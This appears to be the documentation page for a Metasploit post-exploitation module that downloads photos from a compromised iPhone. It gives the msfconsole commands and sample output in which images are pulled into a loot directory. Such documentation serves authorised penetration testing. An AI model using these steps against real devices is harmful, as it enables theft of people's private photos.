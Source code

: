 ## Description

  This module downloads the discovered images on iPhones

## Verification Steps

  1. Start msfconsole
  2. Get a session
  3. Do: ```use post/apple_ios/gather/ios_image_gather```
  4. Do: ```set SESSION <session>```
  5. Do: ```run```
  6. You should get images from the iPhone target.

## Scenarios

### Tested on iOS 10.3.3 on an iPhone 5

  ```

  msf > use post/apple_ios/gather/ios_image_gather 
  msf post(apple_ios/gather/ios_image_gather) > set session 1
  session => 1
  msf post(apple_ios/gather/ios_image_gather) > run

  [!] SESSION may not be compatible with this module.
  [+] Image path found. Will begin searching for images...
  [*] Directory for iOS images: /Users/space/.msf4/loot/KlaBVw
  [*] Downloading image: IMG_0001.JPG
  [*] Downloading image: IMG_0002.JPG
  [*] Downloading image: IMG_0003.JPG
  [*] Downloading image: shell.php.jpg
  [*] Post module execution completed


  ```
